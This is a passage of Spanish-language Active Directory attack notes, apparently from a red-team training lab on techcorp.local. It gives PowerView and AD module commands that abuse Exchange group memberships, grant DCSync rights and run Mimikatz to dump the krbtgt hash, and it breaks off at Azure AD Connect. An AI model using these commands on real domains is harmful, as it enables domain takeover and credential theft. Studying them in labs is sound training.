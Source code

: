 PowerView:

`$user = Get-DomainUser -Identity studentuser1
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions' -Domain techcorp.local
Add-DomainGroupMember -Identity $group -Members $user -Verbose`

AD Module:

`$user = Get-ADUser -Identity studentuser1
$group = Get-ADGroup -Identity 'Exchange Windows Permissions' -Server techcorp.local
Add-ADGroupMember -Identity $group -Members $user -Verbose`

**Cross Domain Attacks – MS Exchange - Organization Management and Enterprise Windows Permissions**

Ahora, como studentuser1 (nueva sesión y después de un tiempo), simplemente podemos agregar los permisos para ejecutar DCSync. Esto es válido para cualquier usuario que forme parte del grupo de permisos de Windows Enterprise:

PowerView_dev:

`Add-DomainObjectAcl -TargetIdentity 'DC=techcorp,DC=local' -PrincipalIdentity 'us\studentuser1' -Rights DCSync -Verbose`

Y ejecutamos DCSync:

`Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'`

**Cross Domain Attacks – MS Exchange -Exchange Trusted Subsystem**

Enumeremos la pertenencia al subsistema de confianza de Exchange en techcorp.local:

PowerView:

`Get-DomainGroupMember "Exchange Trusted Subsystem" -Domain techcorp.local`

ActiveDirectory module:

`Get-ADGroupMember -Identity "Exchange Trusted Subsystem" -Server techcorp.local`

Si tenemos privilegios de 'usuario de intercambio', que es miembro del Subsistema de confianza de Exchange, podemos agregar cualquier usuario al grupo DNSAdmins:

PowerView_dev:

`$user = Get-DomainUser -Identity studentuser1
$group = Get-DomainGroup -Identity 'DNSAdmins' -Domain techcorp.local
Add-DomainGroupMember -Identity $group -Members $user -Verbose`

ActiveDirectory module:

`$user = Get-ADUser -Identity studentuser1
$group = Get-ADGroup -Identity 'DNSAdmins' -Server techcorp.local
Add-ADGroupMember -Identity $group -Members $user -Verbose`

`**Cross Domain Attacks - Attacking Azure AD Integration**`

- Azure AD es un método popular para extender la administración de identidades desde AD local a las ofertas de Azure de Microsoft.
- Muchas empresas utilizan sus identidades de AD locales para acceder a las aplicaciones de Azure.
- "Una única identidad de usuario para la autenticación y autorización de todos los recursos, independientemente de la ubicación ... es una identidad híbrida".
- Un AD local se puede integrar con Azure AD mediante Azure AD Connect con los siguientes métodos:
